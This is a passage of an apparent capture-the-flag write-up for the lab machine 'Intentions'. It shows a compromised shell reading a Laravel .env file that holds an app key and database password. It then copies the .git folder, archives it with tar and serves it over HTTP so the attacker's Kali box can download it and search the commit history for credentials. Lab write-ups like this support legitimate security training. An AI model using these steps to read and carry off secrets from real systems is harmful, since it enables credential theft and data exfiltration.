 The `.env` file also contained some interesting stuff, but it wasn't super useful because we already dumped the database earlier:

```
www-data@intentions:~/html/intentions$ cat .env
APP_NAME=Intentions
APP_ENV=production
APP_KEY=base64:YDGHFO792XTVdInb9gGESbGCyRDsAIRCkKoIMwkyHHI=
APP_DEBUG=false
APP_URL=http://intentions.htb

LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=intentions
DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
<TRUNCATED>
```

We cannot read the `git log` output for this folder:

```
www-data@intentions:~/html/intentions$ git log -p 2 
fatal: detected dubious ownership in repository at '/var/www/html/intentions'
To add an exception for this directory, call:

        git config --global --add safe.directory /var/www/html/intentions
```

In this case, what we can do is just copy the entire `.git` folder using `tar`, as `zip` and `7z` are both not present on the machine.&#x20;

```bash
cp -r .git /tmp/.git
tar -cvf rep.tar /tmp/.git
python3 -m http.server 4444
## on kali
wget <IP>:4444/rep.tar
```

Afterwards, we can view the `git log -p -2` output to find some credentials.

<figure><img src="../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>
